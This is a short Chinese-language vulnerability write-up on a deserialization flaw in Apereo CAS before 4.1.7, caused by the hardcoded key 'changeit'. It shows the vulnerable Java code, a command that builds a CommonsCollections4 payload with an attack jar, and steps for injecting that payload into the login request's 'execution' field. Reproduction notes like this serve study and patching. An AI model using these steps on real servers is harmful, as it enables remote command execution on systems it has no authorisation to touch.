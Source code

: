 # Apereo CAS 4.1 反序列化命令执行漏洞

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。



漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");//固定的
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }
    //...
```

 而java框架中还有一个漏洞原理和这个差不多，好像是shiro中的反序列化漏洞，也是使用了固定的key，造成序列化漏洞。



**exp**

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "命令" > 1.txt
```

然后我们登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload发送：

之后命令执行成功。

